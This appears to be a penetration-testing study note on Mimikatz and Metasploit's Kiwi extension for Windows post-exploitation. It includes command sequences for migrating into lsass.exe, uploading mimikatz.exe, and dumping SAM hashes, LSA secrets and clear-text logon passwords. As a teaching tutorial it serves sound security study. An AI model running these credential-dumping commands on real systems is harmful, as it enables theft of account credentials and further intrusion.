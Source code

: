 # Mimikatz
> Mimikatz is pretty much "THE" tool to use in Windows post-exploitation: Password/Hash extraction from memory.

- **IMPORTANT:** Mimikatz will required elevated privileges in order to run correctly.
- LSASS is a system process and so runs with system/admin privileges.

## Contents
- [Intro](#intro)
  - [Mimikatz & Kiwi](#mimikatz--kiwi)
  - [Why are hashes important?](#why-are-hashes-important)
- [Techniques & Tools](#techniques--tools)
  - [Scenario & Set-Up](#scenario--set-up)
  - [Meterpreter Built-In Extension: Kiwi](#meterpreter-built-in-extension-kiwi)
  - [Mimikatz on the Target](#mimikatz-on-the-target)
    - [Upload mimikatz.exe](#upload-mimikatzexe)
    - [Run mimikatz.exe on the Target](#run-mimikatzexe-on-the-target)

## Intro

### [Mimikatz & Kiwi](https://github.com/gentilkiwi/mimikatz#mimikatz)
- Mimikatz is a Windows post-exploitation tool written by Benjamin Delpy (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes, and Kerberos tickets from memory.
- The SAM (Security Account Manager) database is a database file on Windows systems that stores hashed user passwords.
- Mimikatz can be used to extract hashes from the lsass.exe process memory where hashes are cached.
  - `LSA` : Local Security Authority
  - `LSASS` : Local Security Authority Subsystem Service
- We can utilize the pre-compiled mimikatz executable.
  - This means you have to upload the executable to the target machine and run it from there.
- Or if we have access to a meterpreter session on a Windows target, we can utilize the built-in meterpreter extenstion called Kiwi.
  - With Kiwi we don't have to upload files to the target machine.
  - We just run it from metasploit (no footprint on the target hdd).
- Resources: [Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki) | [MetaSploit Docs](https://www.offsec.com/metasploit-unleashed/mimikatz/)

### Why are hashes important?
- You may not be able to crack them and get the plain-text passwords.
- You can use them in [pass-the-hash](/07_Post-Exploitation/6_Dump_n_Crack/win_dump_n_crack.md#pass-the-hash) attacks.

----
## Techniques & Tools

### Scenario & Set-Up
- You compromised a Windows target with MetaSploit and have a meterpreter session.
- Do some basic initial enumeration:
```
> sysinfo
> pgrep lsass
  # Note the pid
> migrate [lsass process number]
  # Since we are going to be interacting with the LSASS process, migrate to that specific process
  # This gives us a 64-bit meterpreter session on the target 64-bit architecture (more stable)
  # This gives us more stability when interacting with the LSASS process to dump hashes.
> getuid
  # if we have access as Administrator, no privesc needed
> getprivs
  # confirm we have admin privs
```

### Meterpreter Built-In Extension: Kiwi
> Assuming the same scenario: you have compromised a Windows target with MetaSploit and currently have access via a meterpreter session. Because we are dinkin' around with the LSA, we should migrate our meterpreter session to lsass.exe. That will be more stable.
- Kiwi allows us to dynamically execute Mimikatz on the target system without touching the disk (uploading mimiktaz.exe to the target will save it to the hard drive).
```
> load kiwi
> help              # at the bottom of the help file you will get the kiwi module help
> creds_all         # retrieve all credentials
> lsa_dump_sam      # dump the sam database contents
> lsa_dump_secrets  # dump the lsa secrets (unparsed)
```
- This will give you basically the same results as `hashdump` above (copy into a text file: hashes.txt).
- `load kiwi` : Should get visible feedback of successful load
- `creds_all` : will try to get everything; might give you the NTLM has of the administrator account
- `lsa_dump_sam` : This dumps the cached contents of the SAM db
  - REMEMBER: The SAM db is encrypted with a "syskey" and mimikatz/kiwi just gave you that key with this dump.
- `lsa_dump_secrets` : In SOME cases this MIGHT provide you with clear text credentials.
- If you are working within an AD (Active Directory) environment, you can run the kerberos dumps and/or create a golden ticket.
- Handy Kiwil command: `password_change`
  - This is NOT something you'd want to do in an enterprise environment pentest (b/c you'll change an actual account password and/or hash).

### Mimikatz on the Target
> Same scenario... If you wanted, you could upload the mimikatz Windows executable to the target (onto the target's hard drive).

#### Upload mimikatz.exe
- With your meterpreter session, navigate to the root of the target, create a Temp subdir for your files.
```
> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
  # Kali comes with various Windows executables, and mimikatz.exe is one of them.
> shell
  # gets you a cmd on the target
```

#### Run mimikatz.exe on the Target
- In the cmd shell on the target...
```
dir    # should see mimikatz.exe in your Temp dir
mimikatz.exe              # start it up... you get the mikikatz environment and prompt
privilege::debug          # check your privs
                          # if you get "Privilege | 20 | OK" you have sufficient privs to execute
lsadump::sam              # should give you the cache dump: syskey, samkey, hashes
lsadump::secrets          # same results as with kiwi in msf
sekurlsa::logonpasswords  # IF there are clear-text pwds, you'll see them; else Password: (null).
```
- `sekurlsa::logonpasswords` : Some Windows systems are configured to store users' logon passwords in clear text. Mimikatz can find these.





